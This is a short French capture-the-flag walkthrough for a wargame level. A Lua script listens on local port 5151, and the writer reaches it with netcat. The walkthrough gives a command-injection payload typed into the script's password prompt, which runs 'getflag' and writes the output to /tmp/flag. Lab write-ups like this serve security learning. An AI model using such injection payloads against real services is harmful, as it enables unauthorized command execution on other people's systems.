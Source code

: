 # Level11:

**Le script lua tourne sur la session et ecoute sur le port 5151**
**On s'y connect avec la commande suivante**
`nc 127.0.0.1 5151`

**Un prompt apparait nous demandant un mot de passe**
**Il suffit de l'exploit comme suit:**
`"" ; getflag > /tmp/flag ; echo ""`

**Il nous affiche que ca n'a pas fonctionne mais si l'on `cat` le `/tmp/flag` on y trouve le flag**

![finaly.png](./finaly.png)